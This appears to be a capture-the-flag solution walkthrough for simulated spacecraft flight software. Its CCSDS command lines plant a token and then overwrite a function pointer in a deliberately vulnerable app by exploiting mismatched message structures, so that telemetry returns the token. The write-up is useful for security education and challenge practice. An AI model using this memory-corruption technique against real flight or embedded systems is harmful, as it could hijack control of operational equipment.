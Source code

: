 # Get a token into memory for later telemetry retrieval
The orignal setup for this challenge does not have a way to place a token in memory and uses a command to store a string that will be the token.
```
cmd("GEN_TOK_MSG STRING with CCSDS_STREAMID 8032, CCSDS_SEQUENCE 49152, CCSDS_LENGTH 65, CCSDS_FUNCCODE 2, CCSDS_CHECKSUM 0, SOME_STRING this_is_the_token_i_want_back")
```

# Establish msg id change in normal app
The normal app processes a message with a fields: "INTERNAL_USE" = 1722 and MESSAGE = a string 64 char or longer; to change the expected msg id to a different value (this is also used by the vuln app)
```
cmd("NORMAL_APP NORMAL_MSG with CCSDS_STREAMID 8048, CCSDS_SEQUENCE 49152, CCSDS_LENGTH 109, CCSDS_FUNCCODE 2, CCSDS_CHECKSUM 0, COUNT_CHK 0, INTERNAL_USE 1722, MESSAGE THIS is my long message to check if it changes my value, but it needs to be long enough")
```

# Overwrite function pointer in vuln app to call telemetry message
The vuln app receives the same msg id as the normal app, but has a different expected message struct. Therefore, a function pointer can be overwritten using the normal app extend message.
```
cmd("NORMAL_APP EXTENDED_MSG with CCSDS_STREAMID 8064, CCSDS_SEQUENCE 49152, CCSDS_LENGTH 209, CCSDS_FUNCCODE 3, CCSDS_CHECKSUM 0, COUNT_CHK 310940816, INTERNAL_USE 310940816, MESSAGE default")
```
The value used here: 310940816 in both spots is the reverse of address 0x94901288(2492469896): 0x12889490. This is so the address is properly aligned.

* This address will need to be found/solved in whatever the final system/app structure memory map looks like.